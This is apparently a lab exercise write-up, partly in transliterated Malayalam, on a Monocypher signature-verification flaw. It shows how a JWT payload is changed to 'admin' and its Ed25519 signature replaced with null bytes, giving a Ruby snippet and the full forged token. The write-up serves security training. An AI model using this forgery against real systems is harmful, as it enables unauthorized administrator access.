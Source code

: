 ## Introduction
-->This exercise covers a vulnerability in the implementation of `Monocypher`.
-->This issue is described in detail, in the following [advisory](https://monocypher.org/quality-assurance/disclosures).

## Exploitation
-->To exploit this issue, you will need to tamper with the JWT payload and find a signature that will allow you to bypass the JWT signing mechanism.
-->All the information you need to forge the signature is in the advisory, and it should not be difficult (keep it simple, and don't overthink).

# Video Explanation
-->lab open aakuka enit oru account undakuka.
-->ini bup il poit GET / eduth repeater il iduka apol namuk kanam jwt authentication aan application use chyunath :
```jwt
eyJhbGciOiJFRDI1NTE5In0.eyJ1c2VyIjoiam9zdSJ9.HADvI_w3XGYvGNH2_l6mw02K9hdXeolpHySzeAwczOYgy3gdEGxyqLrCSQnKSJDvGzIl3xdOQ5asrbO8hat4DQ
```
-->so ithile header decode chythal : `{"alg":"ED25519"}` 
-->pyaload decode chythal : `{"user":"josu"}`
-->moonamatheth signature aan ath decrypt chyan patoola
-->ini enth venamenal payload il ulla user : josu mati admin enn aakuka ie,`{"user":"admin"}`
-->ini ath save chyuka.enit send adichal namuk admin aayi maran patila.karanam signature different aan.so namal enthvendamenal signate full um null aayitulla charecters kodukuka.so athin namuk ruby il ath undakam :
```ruby
require 'base64'
Base64.urlsafe_encode64("\00"*64)
#AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA==
```
-->so ee AAA... ennulath `==` mati copy chyth jwt signature il paste chyuka ie,
```
eyJhbGciOiJFRDI1NTE5In0.eyJ1c2VyIjoiYWRtaW4ifQ%3d%3d.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
-->ini send adikumbol namuk admin aayi maran patum.so angane key kitum ok
